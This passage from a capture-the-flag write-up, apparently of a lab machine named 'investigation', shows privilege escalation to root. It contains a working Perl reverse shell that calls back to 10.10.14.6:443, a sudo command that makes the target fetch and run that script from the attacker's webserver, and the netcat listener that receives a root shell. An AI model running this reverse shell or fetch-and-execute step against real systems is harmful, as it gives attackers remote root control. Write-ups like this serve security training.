 #### Obvious \[Option 1\]

To get a shell, I'll write a simple Perl reverse shell (based on
[revshells.com](https://www.revshells.com/)):



    use Socket;
    $i="10.10.14.6";
    $p=443;
    socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
    if(connect(S,sockaddr_in($p,inet_aton($i)))) {
        open(STDIN,">&S");
        open(STDOUT,">&S");
        open(STDERR,">&S");
        exec("sh -i");
    }



Now I simply host that on a Python webserver run `binary` with the URL
pointing to it:



    smorton@investigation:~$ sudo binary 10.10.14.6/shell.pl lDnxUysaQn
    Running...



It fetches from my server:



    10.10.11.197 - - [18/Apr/2023 16:07:48] "GET /shell.pl HTTP/1.1" 200 -



And there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.197 40802
    # id
    uid=0(root) gid=0(root) groups=0(root)



And I can read `root.txt`:



    # cd /root
    # cat root.txt
    e9f2ff77************************

